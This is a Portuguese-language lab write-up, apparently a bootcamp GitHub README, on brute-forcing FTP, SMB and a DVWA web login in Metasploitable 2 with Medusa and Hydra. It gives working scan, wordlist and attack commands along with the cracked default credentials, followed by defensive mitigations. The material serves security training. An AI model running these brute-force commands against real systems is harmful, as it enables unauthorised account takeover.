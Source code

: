 # Dio – Santander – Cibersegurança 2025  
## Protocolos de Autenticação & Brute Force  

**Instrutora:** Isadora Ferrão  

---

## 🎯 Objetivo  

Implementar e documentar um projeto prático utilizando **Kali Linux** e a ferramenta **Medusa**, em conjunto com os ambientes vulneráveis **Metasploitable 2** e **DVWA**, simulando ataques de **força bruta** e explorando medidas de **prevenção e mitigação**.  

---

## 🧩 Configuração do Ambiente  

- **Duas VMs** no VirtualBox:
  - **Kali Linux:** máquina atacante.  
  - **Metasploitable 2:** máquina alvo.  
- **Rede:** Host-only (interna).  
- **Login padrão do Metasploitable 2:**  
  ```
  msfadmin : msfadmin
  ```

---

## ⚙️ Ferramentas Utilizadas  

| Ferramenta | Função Principal |
|-------------|------------------|
| **Nmap** | Varredura e identificação de serviços e versões. |
| **Medusa** | Ataques de força bruta em serviços de rede. |
| **Hydra** | Ataques de brute force via HTTP e outros protocolos. |
| **Enum4linux** | Enumeração de usuários e recursos SMB. |
| **John the Ripper** | Quebra de senhas a partir de hashes. |
| **WPScan** | Auditoria de sites WordPress. |
| **Ncrack** | Brute force em autenticações de rede. |

---

## 🔐 Protocolos de Autenticação  

- **HTTP Basic / Digest:** simples, usado em web (inseguro sem HTTPS).  
- **Form-based:** formulários HTML.  
- **NTLM / SMB:** autenticação de compartilhamento de arquivos.  
- **Kerberos:** usado em ambientes Active Directory.  
- **LDAP / AD Bind:** autenticação em diretórios.  
- **SSH:** autenticação por senha ou chave pública.  
- **RDP:** acesso remoto com suporte a NLA/Kerberos.  
- **OAuth / OpenID Connect:** autenticação moderna para web e APIs.  

---

## 🧠 Tipos de Ataques de Força Bruta  

- **Online brute-force:** tentativa direta contra o serviço.  
- **Offline brute-force:** quebra de hashes localmente.  
- **Credential stuffing:** uso de combos vazados (e-mail:senha).  
- **Password spraying:** testar poucas senhas em vários usuários.  
- **Dictionary attack:** uso de wordlists e mutações de palavras.  

---

## 🧪 Etapas Práticas  

### 1️⃣ Varredura de Rede com Nmap  

```bash
nmap -sV -p 21,22,80,139,445 192.168.56.103
```

**Resultado:**  
- FTP (vsftpd 2.3.4) — vulnerável.  
- SSH (OpenSSH 4.7p1) — versão antiga.  
- HTTP (Apache 2.2.8) — desatualizado.  
- SMB (Samba 3.x–4.x) — com workgroup padrão “WORKGROUP”.

---

### 2️⃣ Ataque FTP com Medusa  

**Preparação:**
```bash
echo -e 'user\nmsfadmin\nadmin\nroot' > users.txt
echo -e '123456\npassword\nqwerty\nmsfadmin' > pass.txt
```

**Ataque:**
```bash
medusa -h 192.168.56.103 -U users.txt -P pass.txt -M ftp -t 6 -f
```

**Resultado:**
```
ACCOUNT FOUND: [ftp] Host: 192.168.56.103 User: msfadmin Password: msfadmin [SUCCESS]
```

---

### 3️⃣ Ataque a Formulário Web (DVWA) com Hydra  

```bash
hydra -L users.txt -P pass.txt 192.168.56.103 http-form-post "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed" -t 6
```

**Resultado:**
```
[80][http-post-form] host: 192.168.56.103 login: admin password: password
```

*(O módulo `http-m` do Medusa apresentou erro, por isso foi utilizado o Hydra.)*

---

### 4️⃣ Ataque SMB (Password Spraying)  

**Enumeração de usuários:**
```bash
enum4linux -a 192.168.56.103 | tee enum_output.txt
```

**Criação de listas:**
```bash
echo -e 'user\nmsfadmin\nservice' > smb_users.txt
echo -e 'password\n123456\nWelcome\nmsfadmin' > senhas_spray.txt
```

**Ataque:**
```bash
medusa -h 192.168.56.103 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2
```

**Resultado:**
```
ACCOUNT FOUND: [smbnt] Host: 192.168.56.103 User: msfadmin Password: msfadmin [SUCCESS]
```

**Validação do acesso:**
```bash
smbclient -L //192.168.56.103 -U msfadmin
```

---

## 🧱 Mitigações Recomendadas  

### 🔒 Autenticação e Senhas  
- Usar **MFA/2FA** em contas críticas.  
- Exigir **senhas fortes e únicas** (mínimo 12 caracteres).  
- Implementar **expiração periódica** e bloqueio após falhas.  
- Preferir **chaves SSH** em vez de senhas.  

### 🚫 Controle e Bloqueio  
- Aplicar **rate limiting** e bloqueio de IPs suspeitos.  
- Definir **limite de tentativas por conta/IP**.  

### 📈 Monitoramento  
- Coletar e analisar **logs de autenticação**.  
- Configurar **alertas em tempo real**.  
- Realizar **auditorias regulares** e **pentests autorizados**.  

### 🧩 Hardening e Rede  
- Atualizar serviços vulneráveis (ex.: vsftpd, Samba, Apache).  
- Substituir **FTP por SFTP/FTPS**.  
- Desativar **SMBv1** e ativar **SMB signing/encryption**.  
- Segmentar redes e restringir acessos administrativos.  
- Exigir **TLS/HTTPS** em todos os logins.  

---

## 🧭 Conclusão  

A segurança não depende apenas de firewalls ou antivírus.  
Falhas humanas e negligência organizacional continuam sendo vetores críticos de vulnerabilidade.  
A conscientização, o uso ético de ferramentas e a prática constante são os pilares da **cibersegurança moderna**.  

---

📘 **Autor:** Roberto Yasuhiko Takushi  
📅 **Ano:** 2025  
